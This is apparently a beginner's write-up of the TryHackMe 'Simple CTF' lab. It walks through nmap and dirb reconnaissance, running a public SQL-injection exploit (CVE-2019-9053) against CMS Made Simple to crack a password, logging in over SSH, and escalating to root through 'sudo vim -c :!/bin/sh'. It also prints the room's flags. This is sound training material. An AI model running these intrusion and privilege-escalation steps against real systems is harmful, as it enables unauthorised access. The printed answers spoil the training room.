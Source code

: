 # [Simple CTF](https://tryhackme.com/room/easyctf)
### [TryHackMe](https://tryhackme.com/)
Beginner level ctf

### Stats 
Difficulty :   **Easy**

Questions  :   **10**

Victim IP  :   **10.10.108.117**

### Objectives 
* Find user flag
* Find root flag

### How many services are running under port 1000?
To find how many services are running, just perform a port scan. Here what interests us are all the ports below 1000 so we will specify it in our scan. I use the "nmap" tool to do my scan.
```bash
$ sudo nmap 10.10.108.117 -p0-1000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-09 19:37 CEST
Nmap scan report for 10.10.108.117
Host is up (0.31s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.24 seconds
```
We therefore have 2 open ports. 
#### `Answer : 2`

### What is running on the higher port?
We found all ports open between 0 and 1000 but if it is, services are running on higher ports. We then run a scan of all ports. 
```bash
$ sudo nmap 10.10.108.117 -p- -sC -sV
Nmap scan report for 10.10.108.117
Host is up (0.30s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.58.124
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.64 seconds
```
We find the OpenSSH service on port 2222.
#### `Answer : ssh`

### What's the CVE you're using against the application? 
The question tells us to find a CVE (Common Vulnerabilities and Exposures or CVE is a dictionary of public information about security vulnerabilities.) To exploit the system. We know that a web server is running on port 80 so let's see.
![Web Page](./assets/Simple_CTF/WEB_1.png)
This appears to be the default page for the Apache web server. We will go through a directory enumeration. 
```bash
$ dirb http://10.10.108.117/                   

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug  9 21:11:52 2021
URL_BASE: http://10.10.108.117/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.108.117/ ----
==> DIRECTORY: http://10.10.108.117/simple/
```
Bingo we found a "/simple" directory.
![Web Page](./assets/Simple_CTF/CMS.png)
We find the text "CMS Made Simple" which is a tool for easily generating web content. The question asks us to find a security flaw to exploit, so let's look at the version of this CMS.
```bash
© Copyright 2004 - 2021 - CMS Made Simple
This site is powered by CMS Made Simple version 2.2.8
```
It is written at the bottom of the page "2.2.8". Now let's look on the internet to see if there is an exploit. I typed in "CMS Made Simple 2.2.8 Exploit" and found this. 
![Web Page](./assets/Simple_CTF/EXPLOIT.png)
We have the CVE 2019-9053.
#### `Answer : CVE-2019-9053`

### To what kind of vulnerability is the application vulnerable?
Looking at the web page we find the name "CMS Made Simple <2.2.10 - SQL Injection". We therefore face a SQL Injection or abbreviation: "sqli".
#### `Answer : sqli`

### What's the password?
After downloading the exploit, we run it with the appropriate parameters.
```bash
$ python2.7 exploit.py -u http://10.10.108.117/simple/ --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret


```
We found a password.
#### `Answer : secret`

### Where can you login with the details obtained?
We have a "mitch" user and a "secret" password. We can surely try to connect to the ssh service. 
```bash
$ ssh mitch@10.10.108.117 -p 2222  
The authenticity of host '[10.10.108.117]:2222 ([10.10.108.117]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.108.117]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.108.117's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 

```
We did it.
#### `Answer : ssh`

### What's the user flag?
Apparently there is a flag, let's find it.
```bash
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
```
It was easy...
#### `Answer : G00d j0b, keep up!`

### Is there any other user in the home directory? What's its name?
Under Linux each user has a directory with his name in the "/home" folder.
```bash
$ ls /home
mitch  sunbath
```
We find our user "mitch" and another user "sunbath".
#### `Answer : sunbath`

### What can you leverage to spawn a privileged shell?
To increase our privileges there are a multitude of techniques but as here we have the password of our user, we can try to find which commands we can execute as "root". 
```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
This means that I, "mitch", can execute the command "/usr/bin/vim" as "root" without using a password. 
#### `Answer : vim`

### What's the root flag?
To exploit basic binaries I look at the [GTFOBins](https://gtfobins.github.io/) site. 
![Web Page](./assets/Simple_CTF/GTFOBINS.png)
```bash
$ sudo /usr/bin/vim -c ':!/bin/sh'

# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```
#### `Answer : W3ll d0n3. You made it!`

Write-up made wit :heart: by @LaGelee